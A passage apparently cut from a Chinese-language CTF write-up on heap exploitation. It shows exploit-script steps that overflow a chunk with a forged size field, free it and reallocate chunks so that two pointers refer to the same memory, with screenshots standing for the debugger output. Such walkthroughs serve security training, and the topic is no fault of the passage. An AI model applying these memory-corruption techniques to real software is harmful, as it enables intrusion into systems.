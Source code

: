 ```bash
edit(5,0x418,'a'*0x410+p64(0x1880))
```

[![](assets/1701606615-f9e8089794ca0d5975c84e199502393d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213629-fb93fe88-83bb-1.png)  
然后直接 free

```bash
delete(6)
```

[![](assets/1701606615-159a8ba3e258803490a7d56c5be3b6a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213642-02e37af6-83bc-1.png)

然后直接申请一定 0x408 大小的 chunk，造成两个指针指向同一个 chunk

```bash
add(0x408,'cccc')
add(0x488,'cccc')
add(0x488,'cccc')
```

[![](assets/1701606615-c99a3827d710869791e694da49bae939.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213701-0eb46c0a-83bc-1.png)  